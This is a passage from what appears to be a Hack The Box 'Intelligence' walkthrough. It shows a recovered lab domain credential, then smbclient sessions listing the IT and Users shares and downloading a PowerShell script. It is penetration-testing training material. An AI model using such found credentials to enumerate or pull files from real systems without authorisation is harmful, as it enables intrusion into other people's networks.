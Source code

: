![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%203.png)

I got one user `intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876` .

I looked inside these shares and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ smbclient //10.10.10.248/IT -U 'intelligence.htb\Tiffany.Molina'
Password for [INTELLIGENCE.HTB\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 06:20:55 2021
  ..                                  D        0  Mon Apr 19 06:20:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 06:20:55 2021

		3770367 blocks of size 4096. 1458847 blocks available
smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (2.3 KiloBytes/sec) (average 2.3 KiloBytes/sec)
smb: \> exit
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ smbclient //10.10.10.248/Users -U 'intelligence.htb\Tiffany.Molina'
Password for [INTELLIGENCE.HTB\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Mon Apr 19 06:50:26 2021
  ..                                 DR        0  Mon Apr 19 06:50:26 2021
  Administrator                       D        0  Mon Apr 19 05:48:39 2021
  All Users                       DHSrn        0  Sat Sep 15 12:51:46 2018
  Default                           DHR        0  Mon Apr 19 07:47:40 2021
  Default User                    DHSrn        0  Sat Sep 15 12:51:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 12:41:27 2018
  Public                             DR        0  Mon Apr 19 05:48:39 2021
  Ted.Graves                          D        0  Mon Apr 19 06:50:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 06:21:46 2021

		3770367 blocks of size 4096. 1458847 blocks available
smb: \>
```
{: .nolineno}

